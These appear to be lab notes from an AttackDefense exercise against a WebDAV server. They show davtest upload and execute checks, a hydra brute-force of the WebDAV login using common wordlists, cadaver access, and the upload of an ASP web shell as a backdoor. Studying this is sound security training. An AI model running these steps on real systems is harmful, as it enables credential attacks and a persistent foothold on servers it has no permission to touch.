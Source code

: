 ```
PUT File: http://10.5.27.75/webdav/DavTestDir_Rlui7qRU/davtest_Rlui7qRU.jhtml
PUT File: http://10.5.27.75/webdav/DavTestDir_Rlui7qRU/davtest_Rlui7qRU.asp
Executes: http://10.5.27.75/webdav/DavTestDir_Rlui7qRU/davtest_Rlui7qRU.txt
Executes: http://10.5.27.75/webdav/DavTestDir_Rlui7qRU/davtest_Rlui7qRU.html
Executes: http://10.5.27.75/webdav/DavTestDir_Rlui7qRU/davtest_Rlui7qRU.asp
```

[[Hack2.0/hydra|hydra]]

```
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.5.27.75 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-14 11:27:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.5.27.75:80/webdav/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-14 11:27:57
```

[[cadaver]]

```
root@attackdefense:~# cadaver http://10.5.27.75
Could not access / (not WebDAV-enabled?):
401 Unauthorized
Connection to `10.5.27.75' closed.
dav:!> open http://10.5.27.75/webdav/
Authentication required for 10.5.27.75 on server `10.5.27.75':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_Rlui7qRU                    0  Jul 14 11:23
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
dav:/webdav/>
```

now we know that we can execute the .asp file we will go ahead and upload the backdoor from /usr/share/webshells/asp/webshell.asp to the webdav folder using cadaver.

```
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_Rlui7qRU                    0  Jul 14 11:23
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        webshell.asp                        1362  Jul 14 11:37
```
